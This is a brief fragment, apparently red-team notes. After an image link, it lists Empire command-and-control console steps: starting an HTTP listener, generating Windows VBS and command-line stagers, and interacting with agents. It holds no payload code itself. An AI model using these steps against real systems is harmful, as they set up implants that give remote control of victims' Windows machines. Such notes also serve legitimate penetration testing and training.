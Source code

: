 ## Empire
```bash
# first
listeners
uselistener http

usestager windows_launcher_vbs
usestager windows_cmd_exec

agents
interact
```